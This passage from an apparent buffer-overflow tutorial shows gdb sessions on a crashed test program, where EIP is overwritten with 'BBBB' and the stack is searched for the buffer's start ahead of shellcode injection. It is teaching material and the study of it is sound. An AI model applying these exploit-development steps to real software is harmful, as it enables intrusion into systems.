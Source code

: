     warning: Can't read pathname for load map: Input/output error.
    Reading symbols from /lib/tls/i686/cmov/libc.so.6...done.
    Loaded symbols for /lib/tls/i686/cmov/libc.so.6
    Reading symbols from /lib/ld-linux.so.2...done.
    Loaded symbols for /lib/ld-linux.so.2
    Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
    Program terminated with signal 11, Segmentation fault.
    #0  0x42424242 in ?? ()
    (gdb) quit
    tim@blue:~/devel/buffer_overflows_101$

So we now have complete control of EIP! So we know need to be able to do something with it. So if we're going to inject some shellcode - we need to know where its going to start, so we can set EIP to the start of the eggcode. So lets find the start of the buffer (looking around ESP is always a good place to start with stack overflows)....

    tim@blue:~/devel/buffer_overflows_101$ gdb ./vuln ./core
    GNU gdb 6.6-debian
    Copyright (C) 2006 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i486-linux-gnu"...
    Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".

    warning: Can't read pathname for load map: Input/output error.
    Reading symbols from /lib/tls/i686/cmov/libc.so.6...done.
    Loaded symbols for /lib/tls/i686/cmov/libc.so.6
    Reading symbols from /lib/ld-linux.so.2...done.
    Loaded symbols for /lib/ld-linux.so.2
    Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
    Program terminated with signal 11, Segmentation fault.
    #0  0x42424242 in ?? ()
    (gdb) x/10 $esp-20
    0xbffff97c:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff98c:     0x42424242      0xbffffb00      0x08049670      0xbffff9b8
    0xbffff99c:     0xbffff9c0      0xb7ff3800
    (gdb) # so there's the end of the buffer (including the 'B's) so lets look further up
    (gdb) x/100 $esp-270
    0xbffff882:     0xf8880804      0x4141bfff      0x41414141      0x41414141
    0xbffff892:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8a2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8b2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8c2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8d2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8e2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff8f2:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff902:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff912:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff922:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff932:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff942:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff952:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff962:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff972:     0x41414141      0x41414141      0x41414141      0x41414141
    0xbffff982:     0x41414141      0x41414141      0x42424141      0xfb004242
    0xbffff992:     0x9670bfff      0xf9b80804      0xf9c0bfff      0x3800bfff
    0xbffff9a2:     0xf9c0b7ff      0xfa18bfff      0x3050bfff      0x0ce0b7ea
    0xbffff9b2:     0x84a0b800      0xfa180804      0x3050bfff      0x0002b7ea
    0xbffff9c2:     0xfa440000      0xfa50bfff      0x1820bfff      0x0000b800
    0xbffff9d2:     0x00010000      0x00010000      0x00000000      0x2ff40000
    0xbffff9e2:     0x0ce0b7fd      0x0000b800      0xfa180000      0x8081bfff